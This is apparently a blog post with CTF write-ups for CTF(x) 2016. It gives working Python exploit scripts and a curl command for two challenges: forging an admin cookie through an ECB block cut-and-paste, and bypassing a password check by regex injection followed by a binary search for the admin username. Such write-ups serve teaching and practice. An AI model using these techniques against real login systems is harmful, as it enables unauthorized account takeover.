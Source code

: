 ```yaml
---
layout: post
alias: "/blog/2016/08/29/ctf-x-2016/"
date: "2016-08-29T21:12:07+09:00"
tags: [ "ctf", "writeup", "ctf-x" ]
"target_url": [ "http://ctfx.io/" ]
---
```


# CTF(x) 2016

pwnは遅れて公開されたのだが、2日目がkatagaitai勉強会と(あとworld codesprintや学校とも)で衝突を起こしており、参加時間が取れずpwnを開けなかった。
web50 north koreaをtukejonnyさんが解いててエスパーっぽくてプロかったのが印象的。
for100 passwordはfcrackzip + pkcrackというのは合っていて既知平文も正しかったのだが、`pkcrack`に渡すoptionsでミスがあったため解けず。
misc150 cafebabeも方針は合っていたが文字読み取りの精度が足らずで解けず。python/PILで書いたのは速度面で明らかな失敗であった。


## customauth

The flag is obtained by a ciphertext of a json which contains `"admin":true`.
It uses a block cipher in ECB mode.
You can construct the ciphertext chunk-wise, using the fact that the correspondence of plaintexts and ciphertexts are independent of positions and other chunks.

I needed to send the `admin` field with empty string to get the chunk like `AAAAAA","admin":`.

``` python
#!/usr/bin/env python3
import re
import json
import requests
import collections

chunk = lambda s, l: [s[i:i+l] for i in range(0, len(s), l)]

def encrypt(url, payload):
    resp = requests.post(url, data=payload, allow_redirects=False)
    auth = resp.headers['Set-Cookie'].split()[0][5:-1]
    return auth

def stringify(params): # for ordering and spaces
    return '{' + ','.join(['"%s":%s' % (k, json.dumps(params[k])) for k in params]) + '}'

def check_encrypt(url, params, plain):
    t = stringify(params)
    t = chunk(t, 16)
    i = t.index(plain)
    s = encrypt(url, params)
    assert len(s) % 32 == 0
    s = chunk(s, 32)
    print(repr(plain), s[i])
    return s[i]

import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='problems.ctfx.io')
parser.add_argument('port', nargs='?', default=7001, type=int)
args = parser.parse_args()

f = lambda x, *ys: check_encrypt('http://{}:{}/login'.format(args.host, args.port), collections.OrderedDict(ys), x)

auth = ''
auth += f(r'{"username":"AAA', ('username', r'AAA'), ('password', 'password'))
auth += f(r'AAAAAA","admin":', ('username', r'AAAAAAAAA'), ('admin', ''), ('password', 'password'))
auth += f(r'true,           ', ('username', r'AAAtrue,           '), ('password', 'password'))
auth += f(r'"password":"A"}',  ('username', r'A'), ('password', 'A'))
print('auth=' + auth)

resp = requests.get('http://{}:{}'.format(args.host, args.port), headers={ 'Cookie': 'auth=' + auth })
flag = re.search(r'ctf\([^)]*\)', resp.text).group(0)
print(flag)
```

## HarambeHub

Inject your regular expressions.
Since it compares strings with `String.matches`, not `String.equals`, you can use `.*` instead of the true password.

``` java
    public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }
```

The password is trivial, but the username who has a flag is unknown.
You know your username is `[Member] foo` and not simply `foo`, so you can think that an user `[Admin] bar` exists.
You can do binary search to determine the exact username, and you will get the flag.

``` sh
$ curl 'http://problems.ctfx.io:7003/users?username=\\[A.*&password=password&real_name=real_name' -X POST
FAILED: User with that name already exists!
```

``` python
#!/usr/bin/env python3
import string
import time
import urllib.request
import urllib.parse

def query_users(username, password, real_name):
    url = 'http://problems.ctfx.io:7003/users?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password, 'real_name': real_name }))
    print('POST', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    req.method = 'POST'
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
    return query_users(username, password, real_name)
def query_name(username, password):
    url = 'http://problems.ctfx.io:7003/name?{}'.format(
            urllib.parse.urlencode( { 'username': username, 'password': password }))
    print('GET', url)
    time.sleep(1)
    req = urllib.request.Request(url)
    with urllib.request.urlopen(req) as resp:
        return resp.read().decode()
def match_users(regex):
    s = query_users(regex, 'password', 'real_name')
    if s == 'FAILED: User with that name already exists!':
        return True
    else:
        assert s.startswith('OK: Your username is ')
        return False

s = '' # Arxenixisaloser
while True:
    for letters in [ string.ascii_lowercase, string.ascii_uppercase, string.digits ]:
        if not match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[-1])):
            continue
        l = 0
        r = len(letters) - 1
        while l < r: # [l, r]
            m = (l + r) // 2
            if match_users(r'\[Admin\] {}[{}-{}].*'.format(s, letters[0], letters[m])): # c <= m
                r = m
            else: # m < c
                l = m+1
        s += letters[l]
        break
    else:
        break
    print('FLAG', s)
print(query_name(r'[Admin] ' + s, '.*')) # ctf(h4r4mb3_d1dn1t_d13_4_th1s_f33ls_b4d)
```
